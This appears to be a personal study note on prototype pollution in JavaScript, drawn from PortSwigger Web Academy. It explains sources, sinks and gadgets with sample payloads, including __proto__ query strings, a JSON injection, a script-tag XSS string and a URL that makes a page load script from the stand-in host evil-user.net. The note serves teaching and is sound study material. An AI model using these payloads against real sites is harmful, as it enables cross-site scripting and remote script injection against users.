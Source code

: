 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/introduction/3-key-components-for-exploitation/"}
---
```



---

## ~={red}1. A Source=~

This is any input that enables you to poison prototype objects with arbitrary properties.

-  The URL via either the query or fragment string (hash)
-  JSON based input
-  Web messages

### URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

```javascript
/// Javascript will see this statement:

targetObject.__proto__.evilProperty = 'payload';

```

What we think will happen:

```javascript
{
	existingProperty1: 'foo',
	existingProperty2: 'bar',
	__proto__: {
		evilProperty: 'payload'
	}
}
```

What actually happens:

Instead of setting `evilProperty` inside `targetObject`, JavaScript modifies `Object.prototype`, making `evilProperty` available to all objects due to prototype inheritance.

```javascript

console.log({}.evilProperty); // 'payload'
console.log({ anotherObject: 123 }.evilProperty); //'payload'

```

### JSON Input

When an application receives user input in JSON format. It usually converts JSON into an object using `JSON.parse()`

```javascript
const jsonInput = '{"key": "value"}';
const parsedObject = JSON.parse(jsonInput);

console.log(parsedObject); // {key: 'value'}
```

The issue arises when a user injects a key named `__proto__` in the JSON input

```javascript
const jsonInput = '{"__proto__": {"evilProperty": "payload"}}';
const ParsedObject = JSON.parse(jsonInput);

console.log(parsedObject); // {__proto__: { evilProperty: 'payload' } }

```

Merging the above with another object without sanitizing keys will lead to Prototype Pollution. 

Though the above example shows the parsing of JSON into an object, it is different when **defining** the object as an **object literal** as it does not cause the vulnerability

```javascript
// Defining as JSON causes vuln
const jsonInput = '{"__proto__": {"evilProperty": "payload"}}';

// Defining Object Literal does not cause vuln
const objLiteral = {__proto__: { evilProperty: "payload" } };

```

---

## ~={red}2. ~={red}A Sink=~=~

A prototype pollution sink is essentially just a JavaScript **function** or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. 

Prototype pollution lets an attacker **inject** properties into the global prototype (`Object.prototype`). If the application later **uses** these polluted properties in a **dangerous function**, that function becomes the **sink**.

```javascript
const userSettings = getUserSettings(); // Assume this is merged with polluted prototype
document.body.innerHTML = `<h1>${userSettings.theme}</h1>`;
```

If an attacker pollutes the prototype:

```javascript
Object.prototype.theme = '<script>alert(1)</script>';
```

Then `userSettings.theme` will unexpectedly contain the attacker's payload, leading to **DOM XSS**.

---

## ~={red}3. A gadget=~

A **gadget** in the context of prototype pollution is a piece of vulnerable code that **unintentionally** uses polluted properties in a dangerous way. This allows an attacker to **hijack the program's behavior**.

Let’s say a JavaScript library on a website has this configuration code:

```javascript
let transport_url = config.transport_url || defaults.transport_url;
```

If `config.transport_url` is undefined, it inherits polluted properties from `Object.prototype`

Later in the code, this value is used to load an external script:
```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If no `transport_url` is set in config then `config.transport_url`  inherits from the prototype. The attacker then pollutes the prototype using URL parameter like:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

resulting in:

```javascript
Object.prototype.transport_url = "//evil-user.net"
```

Now, every object will inherit this polluted value